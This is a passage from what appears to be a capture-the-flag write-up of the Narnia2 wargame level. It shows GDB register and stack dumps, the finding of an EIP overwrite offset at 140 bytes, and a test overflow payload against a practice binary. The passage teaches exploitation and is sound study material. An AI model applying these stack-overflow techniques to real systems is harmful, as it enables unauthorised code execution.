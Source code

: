 ```sourceCode
ebx            0xf7fca000   -134438912
esp            0xffffd640   0xffffd640
ebp            0x65413565   0x65413565
esi            0x0  0
edi            0x0  0
eip            0x37654136   0x37654136
eflags         0x10282  [ SF IF RF ]
cs             0x23 35
ss             0x2b 43
ds             0x2b 43
es             0x2b 43
fs             0x0  0
gs             0x63 99
```

```sourceCode
local $] ./pattern.py 0x37654136
Pattern 0x37654136 first occurrence at position 140 in pattern.
```

We can control `EIP` with whatever we put at position 140 of our payload. But what do we put there? Well for that we need to figure out where the rest of our data is going. Using a known payload let's see where our input ends up:

```sourceCode
(gdb) run $(python -c "print 'a' * 140 + 'b' * 4")
Starting program: /games/narnia/narnia2 $(python -c "print 'a' * 140 + 'b' * 4")

Program received signal SIGSEGV, Segmentation fault.
0x62626262 in ?? ()
(gdb) x/200x $esp
(gdb) x/200x $esp
0xffffd650: 0x00000000  0xffffd6e4  0xffffd6f0  0xf7feacea
0xffffd660: 0x00000002  0xffffd6e4  0xffffd684  0x08049768
0xffffd670: 0x0804821c  0xf7fca000  0x00000000  0x00000000
0xffffd680: 0x00000000  0xed18585e  0xd520bc4e  0x00000000
0xffffd690: 0x00000000  0x00000000  0x00000002  0x08048360
0xffffd6a0: 0x00000000  0xf7ff0500  0xf7e3c979  0xf7ffd000
0xffffd6b0: 0x00000002  0x08048360  0x00000000  0x08048381
0xffffd6c0: 0x0804845d  0x00000002  0xffffd6e4  0x080484d0
0xffffd6d0: 0x08048540  0xf7feb180  0xffffd6dc  0x0000001c
0xffffd6e0: 0x00000002  0xffffd812  0xffffd828  0x00000000
0xffffd6f0: 0xffffd8b9  0xffffd8cd  0xffffd8dd  0xffffd8f0
0xffffd700: 0xffffd913  0xffffd927  0xffffd930  0xffffd93d
0xffffd710: 0xffffde5e  0xffffde69  0xffffde75  0xffffded3
0xffffd720: 0xffffdeea  0xffffdef9  0xffffdf05  0xffffdf16
0xffffd730: 0xffffdf1f  0xffffdf32  0xffffdf3a  0xffffdf4a
0xffffd740: 0xffffdf80  0xffffdfa0  0xffffdfc0  0x00000000
0xffffd750: 0x00000020  0xf7fdbb60  0x00000021  0xf7fdb000
0xffffd760: 0x00000010  0x1f898b75  0x00000006  0x00001000
0xffffd770: 0x00000011  0x00000064  0x00000003  0x08048034
0xffffd780: 0x00000004  0x00000020  0x00000005  0x00000008
0xffffd790: 0x00000007  0xf7fdc000  0x00000008  0x00000000
0xffffd7a0: 0x00000009  0x08048360  0x0000000b  0x000036b2
0xffffd7b0: 0x0000000c  0x000036b2  0x0000000d  0x000036b2
0xffffd7c0: 0x0000000e  0x000036b2  0x00000017  0x00000000
0xffffd7d0: 0x00000019  0xffffd7fb  0x0000001f  0xffffdfe2
0xffffd7e0: 0x0000000f  0xffffd80b  0x00000000  0x00000000
0xffffd7f0: 0x00000000  0x00000000  0xe8000000  0x7c03ba19
0xffffd800: 0x2bd0895a  0x3866226d  0x69ad5957  0x00363836
0xffffd810: 0x672f0000  0x73656d61  0x72616e2f  0x2f61696e
0xffffd820: 0x6e72616e  0x00326169  0x61616161  0x61616161
0xffffd830: 0x61616161  0x61616161  0x61616161  0x61616161
0xffffd840: 0x61616161  0x61616161  0x61616161  0x61616161
0xffffd850: 0x61616161  0x61616161  0x61616161  0x61616161
```